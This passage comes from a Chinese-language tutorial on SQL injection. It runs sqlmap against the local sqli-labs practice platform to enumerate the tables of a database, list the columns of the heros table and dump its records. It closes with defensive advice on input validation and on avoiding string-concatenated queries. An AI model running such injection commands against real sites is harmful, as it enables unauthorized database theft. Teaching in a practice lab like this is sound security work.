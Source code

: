 <img src="https://static001.geekbang.org/resource/image/b9/53/b9f9b624e863cd507c1cb1c4b1fc1853.png" alt="">

### 查询wucai数据库中所有数据表

当我们知道DBMS中存在的某个数据库名称时，可以使用-D参数对数据库进行指定，然后使用`--tables`参数显示出所有的数据表名称。比如我们想要查看wucai数据库中都有哪些数据表，使用：

```
python sqlmap.py -u &quot;http://localhost/sqli-labs-master/Less-1/?id=1&quot; --threads=5 -D wucai --tables

```

<img src="https://static001.geekbang.org/resource/image/11/16/119174ae050e5a27e70ebc5537d7b116.png" alt="">

### 查询heros数据表中所有字段名称

我们也可以对指定的数据表，比如heros表进行所有字段名称的查询，使用`-D`指定数据库名称，`-T`指定数据表名称，`--columns`对所有字段名称进行查询，命令如下：

```
python sqlmap.py -u &quot;http://localhost/sqli-labs-master/Less-1/?id=1&quot; --threads=5 -D wucai -T heros --columns

```

<img src="https://static001.geekbang.org/resource/image/68/6d/681d394e31a6ac44ac85f2349282886d.png" alt="">

### 查询heros数据表中的英雄信息

当我们了解了数据表中的字段之后，就可以对指定字段进行查询，使用`-C`参数进行指定。比如我们想要查询heros数据表中的`id`、`name`和`hp_max`字段的取值，这里我们不采用多线程的方式，具体命令如下：

```
python sqlmap.py -u &quot;http://localhost/sqli-labs-master/Less-1/?id=1&quot; -D wucai -T heros -C id,name,hp_max --dump

```

<img src="https://static001.geekbang.org/resource/image/ce/33/ced56f2e12f6c1afccadac6be231a533.png" alt=""><br>
完整的结果一共包括69个英雄信息都显示出来了，这里我只截取了部分的英雄结果。

## 总结

在今天的内容中，我使用了sqli-labs注入平台作为实验数据，使用了SQLmap工具自动完成SQL注入。SQL注入的方法还有很多，我们今天讲解的只是其中一个方式。你如果对SQL注入感兴趣，也可以对sqli-labs中其他例子进行学习，了解更多SQL注入的方法。

在这个过程中，最主要的是理解SQL注入的原理。在日常工作中，我们需要对用户提交的内容进行验证，以防止SQL注入。当然很多时候我们都在使用编程框架，这些框架已经极大地降低了SQL注入的风险，但是只要有SQL拼接的地方，这种风险就可能存在。

总之，代码规范性对于Web安全来说非常重要，尽量不要采用直接拼接的方式进行查询。同时在Web上线之后，还需要将生产环境中的错误提示信息关闭，以减少被SQL注入的风险。此外我们也可以采用第三方的工具，比如SQLmap来对Web应用进行检测，以增强Web安全性。

<img src="https://static001.geekbang.org/resource/image/f5/01/f54cad8278f70197ca2fc268ce2d1901.png" alt=""><br>
你不妨思考下，为什么开发人员的代码规范对于Web安全来说非常重要？以及都有哪些方式可以防止SQL注入呢？

欢迎你在评论区写下你的思考，也欢迎把这篇文章分享给你的朋友或者同事，一起交流一下。


